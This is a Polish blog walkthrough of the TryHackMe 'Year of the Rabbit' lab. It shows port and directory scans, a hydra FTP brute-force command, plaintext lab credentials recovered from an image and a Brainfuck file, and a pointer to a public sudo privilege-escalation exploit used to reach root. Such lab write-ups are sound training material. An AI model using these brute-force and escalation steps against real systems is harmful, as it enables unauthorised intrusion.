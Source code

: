 ```yaml
---
title: Year of the Rabbit
author: piotr
date: 2024-01-15 15:00:00 +0800
categories: [rozwiązanie]
tags: [ctf, thm]
---
```


Rozwiązanie pokoju `Year of the Rabbit` z platformy https://tryhackme.com/.

# Podstawowe skanowanie:

## nmap scan

```
└─$ nmap 10.10.31.55
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-30 12:48 EST
Nmap scan report for 10.10.31.55
Host is up (0.044s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.77 seconds
```

## gobuster scan

```
└─$ gobuster dir -u 10.10.31.55 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.31.55
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/assets               (Status: 301) [Size: 311] [--> http://10.10.31.55/assets/]
/.htaccess            (Status: 403) [Size: 276]
/index.html           (Status: 200) [Size: 7853]
/server-status        (Status: 403) [Size: 276]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

Przyglądając się wynikom skanowania można zaobserwować udostępniony zasób:
![shared directory](/assets/img/year_of_the_rabbit/01.png)

zainteresowałem się tymi plikami i wewnątrz pliku style.css znalazłem komentarz:

```
/* Nice to see someone checking the stylesheets.
    Take a look at the page: /sup3r_s3cr3t_fl4g.php
*/
```

przeszedłem do strony wskazanej w komentarzu i tam znalazłem:
![shared directory](/assets/img/year_of_the_rabbit/02.png)

więc zgodnie z informacją podaną na stronie wyłączyłem obsługę JS w swojej przeglądarce. Korzystam z Firefox i w przypadku tej przeglądarki należy w pasku adresu wpisać about:config, zaakceptować ryzyko i kontynuować a następnie wyszukać javascript.enabled i wyłączyć tę wartość. Po tej operacji ponownie wszedłem na tę stronę i zobaczyłem na niej [ten](https://www.youtube.com/watch?v=dQw4w9WgXcQ) filmik. Na pierwszy rzut oka nie było na niej nic, jednak przyglądając się bliżej komunikacji zauważyłem:
![shared directory](/assets/img/year_of_the_rabbit/03.png)
więc odwiedziłem wskazaną stronę i na niej znalazłem obrazek:
![shared directory](/assets/img/year_of_the_rabbit/04.png)
podejrzewałem, że coś jest ukryte wewnątrz obrazka, postanowiłem to sprawdzić:

```
strings Hot_Babe.png
```

i okazało się, że miałem rację:
![shared directory](/assets/img/year_of_the_rabbit/05.png)
więc teraz miałem hasło do ftp, jednak nie znałem nazwy użytkownika. Do zdobycia hasła wykorzystałem narzędzie hydra:

```
hydra -l ftpuser -P ftp_pass_list.txt ftp://10.10.31.55
```

![shared directory](/assets/img/year_of_the_rabbit/06.png)

```
ftp username: ftpuser
password: 5iez1wGXKfPKQ
```

po uzyskaniu dostępu do ftp sprawdziłem jakie pliki są tam dostępne:
![shared directory](/assets/img/year_of_the_rabbit/07.png)
szczególnie zainteresował mnie plik `Eli's_Creds.txt`, postanowiłem go sprawdzić. Po pobraniu i sprawdzeniu tego pliku doszedłem do wniosku, że jest to program napisany w [Brainfuck](https://en.wikipedia.org/wiki/Brainfuck). Najlepszą opcją w tym przypadku jest po prostu uruchomienie tego kodu, skorzystałem z internetowego ![interpretera](https://www.tutorialspoint.com/execute_brainfk_online.php). Po uruchomieniu tego programu otrzymałem nazwę użytkownika (eli) i hasło (DSpDiM1wAEwid). Postanowiłem sprawdzić czy korzystając z tych danych mogę połączyć się przez ssh do maszyny:
![shared directory](/assets/img/year_of_the_rabbit/08.png)
Po uzyskaniu dostępu do maszyny znalazłem plik `user.txt`, jednak plik ten należy do użytkownika gwendoline, jednak nie mogłem odczytać tego pliku. Utknąłem tutaj na chwilę, jednak przypomniałem sobie o wiadomości powitalnej, domyśliłem się, że jest jakiś folder o tej nazwie:

```
find / -type d -name "s3cr3t" 2>/dev/null
```

i okazało się, że moje domysły były prawidłowe. Folder został znaleziony pod tą lokalizacją `/usr/games/s3cr3t` i znajdował się tam ukryty plik:
![shared directory](/assets/img/year_of_the_rabbit/09.png)

![shared directory](/assets/img/year_of_the_rabbit/10.png)

```
Your password is awful, Gwendoline.
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root

```

zmieniłem więc użytkownika na gwendoline korzystając z narzędzia su, dzięki temu byłem w stanie uzyskać dostęp do pliku user.txt. Aby zdobyć drugą flagę musiałem znaleźć sposób na podniesienie swoich uprawień, więc standardowo:

```
gwendoline@year-of-the-rabbit:~$ sudo -V
Sudo version 1.8.10p3
Sudoers policy plugin version 1.8.10p3
Sudoers file grammar version 43
Sudoers I/O plugin version 1.8.10p3
```

okazało się, że używana tutaj wersja sudo jest [podatna](https://www.exploit-db.com/exploits/47502). Korzystając z tego exploita podniosłem swoje uprawienia do root i przeczytałem flagę.
